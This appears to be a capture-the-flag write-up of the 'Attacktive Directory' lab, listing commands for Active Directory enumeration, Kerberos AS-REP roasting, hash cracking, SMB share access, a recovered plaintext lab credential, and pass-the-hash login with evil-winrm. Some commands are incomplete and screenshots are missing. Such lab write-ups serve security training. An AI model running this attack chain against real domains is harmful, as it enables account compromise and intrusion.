 # Attacktive Directory

### Enumeration

```bash
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image.png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```powershell
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```bash
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



```bash
evil-winrm -u <user> -H "hash" -i ip
```

<figure><img src="../../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

